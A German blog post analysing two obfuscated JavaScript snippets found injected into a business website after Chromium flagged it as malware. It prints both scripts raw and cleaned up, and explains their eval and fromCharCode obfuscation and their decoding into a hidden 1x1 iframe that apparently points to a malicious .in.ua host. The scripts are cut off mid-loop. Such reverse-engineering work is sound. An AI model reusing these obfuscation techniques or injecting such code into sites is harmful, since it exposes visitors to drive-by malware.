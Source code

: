 Amore, Amore more ore
#####################
:date: 2011-06-21 01:44
:tags: bugs, de, exploits, javascript, reverse engineering

Bei meinem alltaeglichen stoebern im Netz kam ploetzlich eine Meldung,
die ich schon lange nichtmehr gesehen hatte. Man muss dazu sagen: ich
verwende chromium als Browser. Firefox meldet da leider nichts.
|image0| Das machte mich stutzig, was chromium dermassen aufstoesst.
Gefunden hab ich ein "obfuscated" javascript am Ende der Seite, schoen
eingebaut in <!-- . -->

::

    var date=new Date();function lols(){return true}
    window.onerror=lols;var fr='fromC';function getXmlHttp(){var xmlhttp;try{xmlhttp=new ActiveXObject('Msxml2.XMLHTTP');fr+='harCode';}catch(e){try{fr+='harCode';xmlhttp=new ActiveXObject('Microsoft.XMLHTTP');}catch(e){xmlhttp=false;}}
    if(!xmlhttp&&typeof XMLHttpRequest!='undefined'){xmlhttp=new XMLHttpRequest();}
    return xmlhttp;}
    var cont=[3200,3.46875,3168,3.65625,3488,3.15625,3520,3.625,1472,3.71875,3648,3.28125,3712,3.15625,1280,1.21875,1920,3.28125,3264,3.5625,3104,3.40625,3232,1,3680,3.5625,3168,1.90625,1088,3.25,3712,3.625,3584,1.8125,1504,1.46875,3808,3.71875,3808,1.4375,3104,3.40625,3552,3.5625,3232,1.40625,3488,3.46875,3648,3.15625,1440,3.46875,3648,3.15625,1440,3.5625,3232,1.6875,1472,3.28125,3520,1.4375,3744,3.03125,1504,3.28125,3520,1.4375,3168,3.21875,3360,1.96875,1600,1.0625,1024,3.71875,3360,3.125,3712,3.25,1952,1.0625,1568,1.0625,1024,3.25,3232,3.28125,3296,3.25,3712,1.90625,1088,1.53125,1088,1,3264,3.5625,3104,3.40625,3232,3.0625,3552,3.5625,3200,3.15625,3648,1.90625,1088,1.5,1088,1.9375,1920,1.46875,3360,3.1875,3648,3.03125,3488,3.15625,1984,1.21875,1312,1.84375];v=32;date=new Date();try{var req=getXmlHttp();req.onreadystatechange=function(){if(req.readyState==1){absrbwa();}};req.open('GET','http://google.com/',true);req.send(null);}catch(e){}
    var y=false;function absrbwa(){if(y)return;y=true;ev=eval;s='';for(i=0;i
    Aber auch daraus wird man erstmal nicht schlau. Es macht irgendeinen Request an google und es geht alle Zahlen in dem Array durch.
    Um es genauer zu verstehen, hab ich den code ein wenig aufgeraeumt:

    var date=new Date();
    function lols(){ return true }

    window.onerror=lols;
    var fr='fromC';

    function getXmlHttp(){
      var xmlhttp;
      try{
        xmlhttp=new ActiveXObject('Msxml2.XMLHTTP');
        fr+='harCode';
      }catch(e){
        try{
          fr+='harCode';
          xmlhttp=new ActiveXObject('Microsoft.XMLHTTP');
        }catch(e){
          xmlhttp=false;
        }
      }
      if(!xmlhttp&&typeof XMLHttpRequest!='undefined'){
        xmlhttp=new XMLHttpRequest();
      }
      return xmlhttp;
    }

    var cont=[3200,3.46875,3168,3.65625,3488,3.15625,3520,3.625,1472,3.71875,3648,3.28125,3712,3.15625,1280,1.21875,1920,3.28125,3264,3.5625,3104,3.40625,3232,1,3680,3.5625,3168,1.90625,1088,3.25,3712,3.625,3584,1.8125,1504,1.46875,3808,3.71875,3808,1.4375,3104,3.40625,3552,3.5625,3232,1.40625,3488,3.46875,3648,3.15625,1440,3.46875,3648,3.15625,1440,3.5625,3232,1.6875,1472,3.28125,3520,1.4375,3744,3.03125,1504,3.28125,3520,1.4375,3168,3.21875,3360,1.96875,1600,1.0625,1024,3.71875,3360,3.125,3712,3.25,1952,1.0625,1568,1.0625,1024,3.25,3232,3.28125,3296,3.25,3712,1.90625,1088,1.53125,1088,1,3264,3.5625,3104,3.40625,3232,3.0625,3552,3.5625,3200,3.15625,3648,1.90625,1088,1.5,1088,1.9375,1920,1.46875,3360,3.1875,3648,3.03125,3488,3.15625,1984,1.21875,1312,1.84375];

    v=32;
    date=new Date();
    try{
      var req=getXmlHttp();
      req.onreadystatechange=function(){
        if(req.readyState==1){
          absrbwa();
        }
      };
      req.open('GET','http://google.com/',true);
      req.send(null);
    }catch(e){}

    var y=false;

    function absrbwa(){
      if(y) return;
      y=true;
      ev=eval;
      s='';
      for(i=0;i

    Es ist nicht ganz so clever, wie das facebook script (nachzulesen hier), aber hat doch einige nette Elemente drin, die es lohnt sich mal anzuschaun. Auch hier wird ein Array benutzt um das ganze ein wenig schwerer zu gestalten und nicht so auffaellig zu sein. Interressant ist, dass er "date" zweimal ein neues Date-Objekt zuweist. In meinen Augen verschwendung.
    Der Request zu Google ist auch eigentlich ueberfluessig. Die Funktion "getXmlHttp()" ist nur eine Ablenkung um die Variable "fr", mit "fromCharCode" zu fuellen, um sie spaeter in "String[fr]" weiter zu verwenden.
    Relativ schnell sieht man im Array ein Muster "Integer, Float, Integer, Float,...". Das macht sich dann spaeter auch in der Berechnung des CharCodes "(i%2) ? cont[i]*v : cont[i]/v" bemerkbar.
    ev ist nur auch wieder eine obfuscation um von eval abzulenken.
    Interressant ist auch noch die Variable "y" mit der Sichergestellt wird, dass die Funktion zwar mehrfach aufgerufen werden kann, aber das Array nur einmal dekodiert wird.
    Es wird also aus diesen Zahlen ein String zusammengesetzt. Aber wie sieht der String nun aus? 
    Das laesst sich mit einem einfachen: "javascript: alert(s);" relativ leicht klaeren.

    document.write('');

Das ganze schreibt ueber den evil Befehl ein iframe mit der
Hoehe=Breite=1 in die Website. Es sieht mir eher nach einem Zaehler aus,
oder aehnliches. Aber ich kann es nicht klar zuordnen. Die Seite an sich
ist "leider" offline und hier hoert meine Spur auf, aber Google hat sie
als Malware eingestuft (siehe `hier`_) Ich hab bisher nicht
rausgefunden, wie die Website infiziert wurde. Aber auf einer anderen
Seiten von Filialen des Betriebes hab ich aehnlichen Schadcode gefunden.
Nachdem aber auf keiner anderen Seite unter dieser IP aehnliches zu
finden war, geh ich von einem Domain Problem aus. Die Seiten sehen alle
Recht aehnlich aus, als tippe ich auch auf aehnliche Luecken. Das
einzige dynamische Element auf das man direkten Zugriff hat ist die
Suche: fts.php Eine andere Erklaerung waere ein Trojaner Lokal, der den
Code immer wieder einfuegt, aber das waere denke ich zu aufwaendig. Hab
aber keine Lust und Zeit, mich damit weiter zu beschaeftigen, aber fals
der Betreiber so freundlich ist, mir den SourceCode der fts.php zur
Verfuegung zu stellen, werde ich mal einen Blick drueber werfen. Auf
einer anderen Domain war noch ein anderes Script zu finden:

::

    var ar="-n2=c:9m0'd)eu otag?pbr(\"hw";var k=new Boolean().toString();var ar2="f57,72,39,66,48,63,3,75,18,105,93,12,75,63,96,54,6,12,15,93,78,48,63,69,21,93,39,36,99,102,75,75,87,42,9,9,105,105,105,18,78,48,72,93,63,0,48,72,93,63,0,72,93,63,0,93,63,45,18,12,3,18,66,78,9,12,3,18,39,81,12,84,33,99,69,105,12,57,75,102,36,99,27,99,69,102,63,12,81,102,75,36,99,27,99,69,15,93,78,48,63,90,72,93,57,63,93,36,99,51,99,30,6,9,12,15,93,78,48,63,30,54,60,24]".replace(k.substr(0,1),'[');date=new Date();pau="rn ev2011".replace(date.getFullYear(),"al");e=new Function("","retu"+pau);e=e();ar2=e(ar2);s="";for(i=0;i
    Welches aufgeraeumt auch um einiges schoener aussieht:

    var ar="-n2=c:9m0'd)eu otag?pbr(\"hw";

    var k=new Boolean().toString();
    var ar2="f57,72,39,66,48,63,3,75,18,105,93,12,75,63,96,54,6,12,15,93,78,48,63,69,21,93,39,36,99,102,75,75,87,42,9,9,105,105,105,18,78,48,72,93,63,0,48,72,93,63,0,72,93,63,0,93,63,45,18,12,3,18,66,78,9,12,3,18,39,81,12,84,33,99,69,105,12,57,75,102,36,99,27,99,69,102,63,12,81,102,75,36,99,27,99,69,15,93,78,48,63,90,72,93,57,63,93,36,99,51,99,30,6,9,12,15,93,78,48,63,30,54,60,24]".replace(k.substr(0,1),'[');

    date=new Date();
    pau="rn ev2011".replace(date.getFullYear(),"al");
    e=new Function("","retu"+pau);

    e=e();
    ar2=e(ar2);
    s="";
    for(i=0;i
    Auch dieses Script ist wieder ziemlich ev(i|a)l.
    Es macht sich einen String "k" in welchem "false" steht. Dann generiert es aus dem String "ar2" ein Array, indem es das erste Zeichen von "false", also ein "f", durch eine eckige Klammer ersetzt.
    Soweit sogut, aber wo ist das eval. Wir definieren uns die Variable "pau" mit "rn ev2011" und ersetzen das Jahr durch "al" und schon haben wir unser eval...naja nicht ganz, bisher steht da nur: "rn eval".
    Aber das loest sich, wenn wir eine Funktion generieren, die wir "e" nennen, die nichts anderes macht als: return eval.
    Dann sagen wir, dass: "e=e();" was "e" auch evil, aeh eval, macht.
    Nun koennen wir endlich aus ar2 ein Array machen.

    Die Zahlen definieren bloss die Position des Zeichens im String "ar". Dieses Zeichen wird dann an den String "s" angehaengt. 
    Und der String "s" dann ueber "e(s)" ausgefuehrt.
    Dadrin steht, wer haette es gedacht:

    document.write('');

Ich hoffe der Betreiber meldet sich und ich kann mir den SourceCode mal
naeher anschauen oder er die Javascript entfernen, denn eine Warnmeldung
fuer alle Chrome/Chromium Benutzer, wenn man auf seine Seite geht,
sollte ja auch nicht sein. so long

.. _hier: http://www.google.de/safebrowsing/diagnostic?site=amore-more-ore-re6.in.ua/

.. |image0| image:: http://nuit.homeunix.net/blag/wp-content/uploads/2011/06/2011-06-21-021047_1024x768_scrot-300x225.png
